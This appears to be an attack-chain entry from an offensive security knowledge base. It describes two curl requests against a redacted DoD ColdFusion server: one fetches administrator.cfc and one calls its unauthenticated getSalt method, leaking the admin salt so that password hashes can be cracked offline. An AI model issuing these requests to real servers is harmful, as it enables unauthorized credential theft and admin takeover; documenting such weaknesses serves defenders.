

---
tags:
  - coldfusion
  - salt-leakage
  - credential-exposure
  - authentication-bypass
  - dod
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Adobe ColdFusion
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-ColdFusion-Admin-Login-Endpoint]]'
  - '[[procedures/Retrieve-Admin-Salt-via-Exposed-Method]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
updated_at: '2025-12-14T17:28:58.680Z'
description: >-
  Attack chain exploiting an exposed administrator salt retrieval method in an
  Adobe ColdFusion application, enabling potential password cracking and admin
  access on a DoD domain.
id: e6ceaed7-5e28-45f6-9567-8a267da77bdf
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
---
# Admin Salt Leakage via Exposed ColdFusion Endpoint Leading to Authentication Bypass

Multi-stage attack chain demonstrating a complete attack workflow targeting an Adobe ColdFusion application on a DoD domain. The chain exploits an unprotected API endpoint to leak the administrator salt, which can be combined with captured hashes for offline cracking to bypass authentication and gain admin panel access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[commands/curl-access-endpoint]]

### Target Environment

- Adobe ColdFusion web application
- Exposed admin API endpoints
- No authentication required for salt retrieval

### Initial Access Requirements

- Public network access to the target domain
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Access Login Page
procedure: [[procedures/Access-ColdFusion-Admin-Login-Endpoint]]

**Objective**: Identify and access the authentication endpoint to understand the application's structure.

**Instructions**: Navigate to the admin login page using a web browser or curl to inspect the endpoint.

Use [[commands/curl-access-endpoint]] to fetch the login page:

```bash
curl -i https://█████████/████████/adminapi/administrator.cfc
```

**Expected Output**: HTML response containing the login form or CFC component details.

**Success Indicators**:
- 200 OK response with login interface
- Confirmation of ColdFusion Administrator CFC endpoint

### Step 2: Retrieve Admin Salt
procedure: [[procedures/Retrieve-Admin-Salt-via-Exposed-Method]]

**Objective**: Exploit the unprotected getSalt method to leak the administrator salt value.

**Instructions**: Directly invoke the getSalt method via URL parameter to obtain the salt.

Execute [[commands/curl-retrieve-salt]] to access the method:

```bash
curl https://█████████/████████/adminapi/administrator.cfc?method=getSalt
```

**Expected Output**: Plain text response with the salt value, e.g., "███████".

**Success Indicators**:
- Salt value returned in response body
- No authentication prompt during access

## Attack Chain Summary

### Key Achievements

1. Identified exposed ColdFusion admin API endpoint
2. Leaked administrator salt without authentication
3. Enabled potential offline cracking of password hashes for admin access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Unsecured Credentials]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
